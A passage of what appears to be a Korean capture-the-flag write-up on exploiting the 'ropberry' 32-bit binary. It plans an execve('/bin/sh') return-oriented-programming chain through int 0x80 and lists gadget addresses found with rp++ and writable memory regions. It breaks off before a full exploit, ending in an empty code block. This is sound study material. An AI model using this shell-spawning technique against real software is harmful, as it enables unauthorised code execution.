 32bit binary, NX enabled임을 확인할 수 있다. `PLT & GOT`를 찾아봤지만 확인이 안된다. 대신, 바이너리에 사용하는 함수가 모두 존재한다. 

```bash
gdb-peda$ p system
No symbol table is loaded.  Use the "file" command.
gdb-peda$ p execve
No symbol table is loaded.  Use the "file" command.
gdb-peda$ p execl
No symbol table is loaded.  Use the "file" command.
gdb-peda$ 
```

하지만 `system`이나 `execve`같은 함수는 내부에 존재하지 않는다. 쉘코드를 만들 때 자주 사용한 `int 0x80`을 이용해 `execve`를 호출해야 한다.

`execve`의 syscall 번호는 `0xb`이므로 `eax = 0xb`, `ebx = &"/bin/sh\x00"`, `ecx = &&"/bin/sh"`, `edx = NULL` 정도로 만들어 주면 된다.

또한 바이너리 내부에 `"/bin/sh"` 문자열이 없으므로 적당한 곳에 문자열을 써야한다. 또한 `"/bin/sh"`를 가리키는 주소도 저장해야 하므로 `mov [reg1], reg2` 형태의 가젯이 필요하다.

필요한 Gadget들을 나열해보면 다음과 같다.

```nasm
pop; pop; pop; ret
pop eax; ret
pop ebx; ret
pop ecx; ret
pop edx; ret
mov [reg1], reg2; ret
int 0x80; ret
```

`mov [reg1], reg2; ret`을 바이너리에서 찾았다

```bash
rp++ -f ./ropberry -r 3 | grep " ; ret" | grep "mov dword \[" | grep "ret"

0x0804b69a: mov dword [ecx], eax ; ret  ;  (1 found)
```

다른 Gadget도 rp++을 통해 찾았다.

```python
int_ret = 0x08059d70
pop_eax_ret = 0x080e2b31
pop_ebx_ret = 0x080c4730
pop_ecx_ret = 0x080e394a
pop_edx_ret = 0x0805957a
pop3ret = 0x804859c
mov_ptr_ecx_eax_ret = 0x0804b69a
```

Writable area를 다음과 같이 찾았다

```bash
gdb-peda$ shell ps
   PID TTY          TIME CMD
 58825 pts/19   00:00:03 zsh
 62859 pts/19   00:00:00 gdb
 62903 pts/19   00:00:00 ropberry
 63024 pts/19   00:00:00 ps
gdb-peda$ shell cat /proc/62903/maps
08048000-080ed000 r-xp 00000000 08:01 1580725                            /home/ubuntu/~/ropberry
080ed000-080ef000 rw-p 000a4000 08:01 1580725                            /home/ubuntu/~/ropberry
080ef000-08113000 rw-p 00000000 00:00 0                                  [heap]
f7ff9000-f7ffc000 r--p 00000000 00:00 0                                  [vvar]
f7ffc000-f7ffe000 r-xp 00000000 00:00 0                                  [vdso]
fffdd000-ffffe000 rw-p 00000000 00:00 0                                  [stack]
gdb-peda$ 
```
```python
```